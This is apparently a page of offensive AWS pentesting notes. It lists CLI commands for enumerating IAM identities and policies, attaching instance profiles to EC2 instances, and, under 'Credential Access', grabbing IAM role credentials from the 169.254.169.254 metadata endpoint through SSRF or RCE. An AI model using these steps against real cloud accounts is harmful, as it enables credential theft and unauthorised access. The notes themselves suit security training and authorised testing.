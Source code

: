 #### Getting information about the key

```
aws sts get-caller-identity
```

#### Getting policies attached to the IAM user

```
aws iam list-attached-user-policies --user-name user_name
```

#### Getting information about a specific policy version

```
aws iam get-policy-version --policy-arn ARN --version-id ID
```

To attach a role to an EC2 instance, we can use the RCE to grab the ID

```
curl http://169.254.169.254/latest/meta-data/instance-id
```

#### Listing instance profiles

```
aws iam list-instance-profiles
```

#### Attach an instance profile to an EC2 instance

```
aws ec2 associate-iam-instance-profile --instance-id ID --iam-instance-profile Name=ProfileName
```

### Credential Access

* We can grab the credentials by abusing metadata (Web Application with SSRF,RCE and so on)

#### After the initial access
1. Enumerate the key (Role)

```
aws sts get-caller-identity
```

2. If there are roles associated with the key, we can grab the credentials by issuing a request to the metadata endpoint (v1 or v2)

```
curl http://169.254.169.254/latest/meta-data/iam/security-credentials/ROLE_OF_PREVIOUS_COMMAND
```

3. Configure the aws cli

```
aws configure 
```

Or use enviroment variables.
